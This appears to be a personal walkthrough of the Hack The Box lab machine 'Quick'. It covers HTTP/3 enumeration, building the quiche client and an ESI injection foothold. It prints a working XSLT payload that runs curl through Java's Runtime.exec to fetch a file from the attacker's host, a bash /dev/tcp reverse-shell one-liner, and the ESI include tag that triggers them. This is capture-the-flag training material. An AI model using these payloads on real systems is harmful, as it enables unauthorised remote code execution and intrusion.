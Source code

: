 # Quick (HTTP/3, Symlinks, ESI Injection)

Quick is a hard difficulty Linux machine that features a website running on the  HTTP/3 protocol. Enumeration of the website reveals default credentials. The client portal is found to be vulnerable to ESI (Edge Side Includes) injection. This is used to obtain code execution and gain a foothold. A weak password gives access to a printer console, which permits the addition of new printers. Weak file permissions are exploited to move laterally. Plaintext credentials exposed in a configuration are reused to escalate to root. The official HTB writeup is below:

[Quick walkthrough](https://app.hackthebox.eu/machines/Quick/walkthroughs)

## Skills Learned:

- HTTP/3 Protocol
- Using Symlinks
- ESI Injection
- Since the http server is running on a weird port, you should do a full port scan as well as a UDP scan
- Keep in mind that UDP is connectionless so the results aren't always what they seem to be

### Problems I Ran Into

1. **Installing Quiche**
- Since you cannot connect to HTTP/3 via normal browsers like firefox or chrome, you have to use the QUIC protocol
- You can use a client called quiche which can be found [here](https://github.com/cloudflare/quiche)
- To install this client properly you need the correct version of rust and cargo and these can be installed using rustup

```
sudo apt autoremove rustc
sudo apt autoremove cargo
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
// Rustup installs the latest versions of rustc and cargo
// Never run cargo as sudo, it won't allow you anyway 
// You might also want to install cmake if it is not installed already
// Don't clone the quiche repository in a directory owned by root
git clone --recursive https://github.com/cloudflare/quiche.git
cd quiche
cargo build --examples
// you will find the HTTP/3 client in:
cd target/debug/examples 
```

2. **Foothold**
- problem I ran into was getting the shell. the server from the attacker machine is supposed to be a PHP server because that one executes when it is connected to. run this with `sudo php -S 0.0.0.0:80`
- make an empty `xml` file on your attacker machine eg `pwn.xml`
- make the `esi.xsl` on your machine as well (same folder)

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.4/shell -o /tmp/shell]]>
</xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- make a bash file called `shell` on your machine (same folder as other two) and put the bash reverse shell one liner:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.6/9001 0>&1
```

- when making the ticket use this code snippet as the message:

```xml
<esi:include src="http://10.10.16.6/pwn.xml" stylesheet="http://10.10.14.4/esi.xsl">
</esi:include>
```

- now run the search ticket query and the bash script will be made on the remote server
- edit the `esi.xsl` script on you machine to run the command that'll run the bash script and spawn a reverse shell.
